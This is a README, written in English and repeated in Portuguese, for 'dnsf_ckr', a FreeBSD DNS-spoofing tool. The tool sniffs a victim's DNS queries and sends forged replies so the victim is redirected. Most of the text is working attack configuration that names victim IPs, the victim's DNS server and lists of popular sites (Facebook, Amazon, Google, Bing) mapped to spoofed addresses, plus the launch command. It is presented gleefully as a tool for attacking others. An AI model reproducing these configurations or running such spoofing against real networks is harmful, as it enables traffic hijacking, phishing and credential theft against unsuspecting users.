 Dnsf_ckr
--------

(sorry my bad english...)

dnsf_ckr is a application used for messing up with domain names. Until now it works on FreeBSD.

The idea here is sniffing victim's dns requests and fake the response as soon as possible than real dns server.
In this way is possible redirect the target machine to anywhere we want.

MuHAuHaUHauHAuHAHuha! :P

## Using dnsf_ckr

At first you need to know three things

    * The victim's ip address
    * The victim's real DNS server IP
    * What domain names you wish to spoof

These informations must be supplied to dnsf_ckr through a configuration file.

Suposing that yours victim is called "sheep" and has the ip address "192.30.70.9" and accesses the "www.facebook.com",
we have the following attack configuration:

        # dnsf_ckr attack config sample

        # at first, you have to declare your victim alias

        victims =
            sheep: 192.30.70.9
        ;

        # sheep requests name resolutions in 192.30.70.200 (from now on called "cheap-server")

        dns-servers =
            cheap-server: 192.30.70.200
        ;

        # and so, the domain that your victim accesses and which you want to spoof, in form <domain>:<spoofed-ip>

        namelist boring-sites =
            www.facebook.com: 192.30.70.101
        ;

        # finally, you inform your intentions to dnsf_ckr

        fake-nameserver =
            with sheep mess up boring-sites
        ;

        # but yet we need to describe how valid transactions (in normal conditions, e.g. not spoofed) should be occur.

        real-dns-transactions =
            sheep sends requests to cheap-server
        ;

Okay, now you want to add a new attack based on a new victim and also direct the "sheep" for others wilder domains:

        victims =
            sheep: 192.30.70.9
            obama: 192.30.70.21
        ;

        dns-servers =
            cheap-server: 192.30.70.200
        ;

        namelist boring-sites =
            www.facebook.com: 192.30.70.101
        ;

        namelist webcommerce-sites =
            www.amazon.com: 192.30.70.101
            www.buy-buy-baby-buy-buy.com: 192.30.70.101
            www.good-buy.com: 192.30.70.101
        ;

        namelist search-engines =
            www.bing.com: 192.30.70.102
            www.google.com: 192.30.70.101
            www.goduck.com: 192.30.70.103
        ;

        real-dns-transactions =
            sheep sends requests to cheap-server
            obama sends requests to cheap-server
        ;

        fake-nameserver =
            with sheep mess up boring-sites, webcommerce-sites
            with obama mess up search-engines
        ;

Now, if the presented configuration data is into "my-dirty-little-hacking.conf" file... all we need to do is:

        ./dnsf_ckr --attack-map=my-dirty-little-hacking.conf --iface=em1

The option --iface indicates the name of the interface that you use to access the network.

Have fun!
Santiago


Dnsf_ckr
--------

dnsf_ckr e uma aplicacao usada para baguncar com nomes de dominios. Ate agora isso funciona no FreeBSD.

A ideia aqui e sniffar as requisicoes dns da vitima e falsificar a resposta o quanto antes que o servidor dns real.
Dessa forma e possivel redirecionar a maquina alvo para onde nos quisermos.

MuHAuHaUHauHAuHAHuha! :P

## Usando o dnsf_ckr

Inicialmente voce precisa saber tres coisas

    * O endereco ip da vitima
    * O endereco ip do servidor DNS real da vitima
    * Quais nomes de dominio voce quer spoofar

Essas informacoes devem ser informadas ao dnsf_ckr atraves do arquivo de configuracao.

Supondo que sua vitima e chamada "sheep" e tem o endereco ip "192.30.70.9" e acessa o "www.facebook.com", nos temos
a seguinte configuracao de ataque:

        # dnsf_ckr attack config sample

        # at first, you have to declare your victim alias

        victims =
            sheep: 192.30.70.9
        ;

        # sheep requests name resolutions in 192.30.70.200 (from now on called "cheap-server")

        dns-servers =
            cheap-server: 192.30.70.200
        ;

        # and so, the domain that your victim accesses and which you want to spoof, in form <domain>:<spoofed-ip>

        namelist boring-sites =
            www.facebook.com: 192.30.70.101
        ;

        # finally, you inform your intentions to dnsf_ckr

        fake-nameserver =
            with sheep mess up boring-sites
        ;

        # but yet we need to describe how valid transactions (in normal conditions, e.g. not spoofed) should be occur.

        real-dns-transactions =
            sheep sends requests to cheap-server
        ;

Certo, agora voce quer adicionar um novo ataque baseado em uma nova vitima e direcionar "sheep" para outros dominios mais selvagens:

        victims =
            sheep: 192.30.70.9
            obama: 192.30.70.21
        ;

        dns-servers =
            cheap-server: 192.30.70.200
        ;

        namelist boring-sites =
            www.facebook.com: 192.30.70.101
        ;

        namelist webcommerce-sites =
            www.amazon.com: 192.30.70.101
            www.buy-buy-baby-buy-buy.com: 192.30.70.101
            www.good-buy.com: 192.30.70.101
        ;

        namelist search-engines =
            www.bing.com: 192.30.70.102
            www.google.com: 192.30.70.101
            www.goduck.com: 192.30.70.103
        ;

        real-dns-transactions =
            sheep sends requests to cheap-server
            obama sends requests to cheap-server
        ;

        fake-nameserver =
            with sheep mess up boring-sites, webcommerce-sites
            with obama mess up search-engines
        ;

Agora, se os dados de configuracao apresentados estao dentro do arquivo "my-dirty-little-hacking.conf"... tudo o que precisamos fazer e:

        ./dnsf_ckr --attack-map=my-dirty-little-hacking.conf --iface=em1

A opcao --iface indica o nome da interface que voce usa para acessar a rede.

Divirta-se!
Santiago

